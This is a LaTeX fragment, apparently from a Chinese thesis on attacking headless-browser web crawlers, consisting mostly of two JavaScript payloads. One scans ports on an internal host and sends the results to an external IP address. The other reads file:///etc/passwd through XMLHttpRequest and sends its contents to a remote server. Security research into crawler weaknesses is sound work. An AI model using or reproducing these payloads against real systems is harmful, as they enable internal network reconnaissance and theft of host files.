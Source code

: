 \documentclass[doctor,privacy,twoside]{buaa_mac}
\begin{document}
\lstset{language=JavaScript}
\begin{lstlisting}
var result="";
var newline = String.fromCharCode(10);
function scanPort(target,port,timeout)
{
  var time = Date.now();
	var img=new Image();
	img.onerror=function ()
	{
	   console.log( target + ':' + port + '  ' + (Date.now() - time) + 'ms');
		if (!img) return;
		img=undefined;
		out(target,port,"open");
	}

	img.onload=img.onerror;
	img.src='http://'+target+':'+port;

	setTimeout(function() {
		if (!img) return;
        img = undefined;
		out(target,port,"close");
		},timeout);
}

function scanTarget(target,port,timeout)
{
	for(i=0;i<port.length;i++)
		scanPort(target,port[i],timeout);
}

var out=function(target,port,status) {
	result+=target+':'+port+'  '+status+newline;
	console.log(target+':'+port+'  '+status+newline);
}

var scan=function(target,port,timeout)
{
	scanTarget(target, port.split(','), timeout);
}

scan("192.168.244.154","80,443,445,1521,2222,3306,3389,5901,6379,\
7001,8000,8001,8005,8080,8888,22222",1000);
setTimeout(function() {window.location.href="http://8.90.144.214/1.php?b="+result;},2000);

\end{lstlisting}

\subsection{任意文件读取攻击载荷}

该攻击载荷一旦成功执行，可以在爬虫所在的宿主机读取任意文件并发送到远程服务器。但是因为该攻击载荷使用了cross origin request的技巧，因此要求爬虫在本地文件系统上渲染该文件，且无头浏览器安全策略不限制file协议的使用。

\lstset{language=JavaScript}
\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
	    window.location.href="http://7.9.5.4/index.php?msg=" + xhr.responseText;
    }
}
xhr.open('GET', 'file:///etc/passwd', true);
xhr.send(null);
\end{lstlisting}



\section{漏洞挖掘与分析}
\end{document}
